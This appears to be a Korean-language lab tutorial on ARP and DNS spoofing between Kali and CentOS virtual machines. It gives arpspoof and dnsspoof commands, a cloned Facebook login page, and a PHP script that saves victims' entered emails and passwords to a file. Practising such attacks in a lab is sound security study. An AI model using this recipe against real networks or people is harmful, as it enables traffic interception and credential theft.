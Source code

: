 ```yaml
---

title: Spoofing 
categories: 정보보안

---  
```

  
&nbsp;&nbsp;Kali와 CentOS에서 ARP Spoofing과 DNS Spoofing을 실습해보자.

<h2>IP Spoofing</h2>
&nbsp;&nbsp;IP Spoofing이란 자신의 ip를 변조해 자신이 만든 패킷을 다른 컴퓨터가 만든 패킷처럼 만드는 것이다.


<h2>Fragroute</h2>

&nbsp;&nbsp;포트 포워딩을 해주는 도구. 
&nbsp;&nbsp;ARP Spoofing을 하게 되면 자신에게 패킷이 오게 되는데, 이후 다시 피해자가 지정한 곳에 피해자의 패킷을 보내주기 위해 사용한다. 만약 이를 사용하지 않으면 피해자의 패킷이 나에게만 오고 전달되야할 곳에 전달이 안되서 피해자가 정상적인 네트워크를 사용하지 못한다. 

```
fragroute -B1
```

<h2>ARP Spoofing</h2>

`arp -a` : 현재 MAC 테이블 확인

`route -n`  : 게이트웨이 주소 확인

```arpspoof -i [인터페이스 이름] [target ip] [gateway ip]```

&nbsp;&nbsp;와이어샤크를 이용해 패킷을 확인해 보면 target에서 내 ip를 통해 패킷을 보내고 내 PC에서 게이트웨이에 다시 패킷을 보내 도청하고 있는 것을 알 수 있다. 여기서 응용해 DNS Spoofing을 해보자.


<h2>DNS Spoofing</h2>

&nbsp;&nbsp;공격자의 apache2를 실행해주고 피해자가 지정된 domain에 접근시 공격자의 html로 접근해 피해자가 입력하는 정보를 탈취하는 방법을 실습해보자.

&nbsp;&nbsp;facebook.html을 다운 받고 이를 /etc/www/html에 삽입해주자. 파일명은 index.html로 만들어주자. index.html에서 
method 옆 action 기존 내용을 지우고 php파일을 삽입해주자.
  
```html
action="post.php" method=POST
```

&nbsp;&nbsp;action에 지정된 post.php 파일을 생성해 주자.

```php
<?php
$file="post.txt";
file_put_contents($file, print_r($_POST, true), FILE_APPEND);
?>
<meta http-equiv="refresh" content="0; url=http://www.facebook.com">
```

&nbsp;&nbsp;이 php는 post.txt에 피해자가 입력한 정보를 입력해주고 피해자를 다시 원래의 facebook으로 접속하게 해준다. 이제 dnsspoof를 이용하기 위해 host.txt 파일을 생성해 주자. dnsspoof의 경우 파일을 통해 호스트와 url을 지정해 줄 수 있다. 

```
[피해자 ip] *.facebook.com
```

&nbsp;&nbsp;그리고 이제 이 파일을 이용해서 dnsspoof 명령어를 실행해주자.

```
dnsspoof -i [인터페이스 이름] -f /경로/hosts.host
```

&nbsp;&nbsp;이제 피해자 PC에서 nscd를 이용해 dns를 초기화해줘야 한다. 

```
systemctl restart nscd
```
&nbsp;&nbsp;이 후에 피해자 컴퓨터에서 페이스북에 접근을 시도하면, 아까 지정해준 공격자의 index.html에 접근하게 되고 피해자가 e-mail과 비밀번호를 입력할 시 아까 생성한 post.txt에 입력된다. 

&nbsp;&nbsp;~~<strong>이 방법이 성공하지 않을 수 있다.</strong> 이러한 공격을 막기 위해 웹 브라우저에서 자체적으로 보통 차단하기 때문에 성공하지 않을 수 있다. 만약에 이를 해결하는 경우 댓글로 알려주시면 감사하겠습니다.~~ firefox의 경우 자동적으로 https로 변환해 실행을 해주기 때문에 이를 해결해주면 된다고 합니다. 


<h2>네트워크 인터페이스가 다를 경우</h2>

&nbsp;&nbsp;VMware를 사용해 실습할 경우 각 OS의 네트워크 인터페이스가 다를 수가 있다. kali는 eth0인데 서버는 ens33이라던지. 이 경우 /etc/default/grub 파일을 수정해 주면 된다.(centOS 기준)
GRUB_CMDLINE_LINUX 부분에
/swap 이 부분 뒤 <strong> [net.ifnames=0] rhgb quite </strong> 이렇게 수정해주도록 하자.


```
grub2-mkconfig -o /boot/grub2grub.cfg  

cd /etc/sysconfig/network-scripts  

mv ifcfg-ens33 ifcfg-eth0  

vi ifcfg-eth0  
```
 
 
&nbsp;&nbsp;생성된 ifcfg에서 name과 device 태그를 eth0로 변경해주자.
재부팅 후 네트워크를 확인하면 이름이 변경된 것을 알 수 있다.
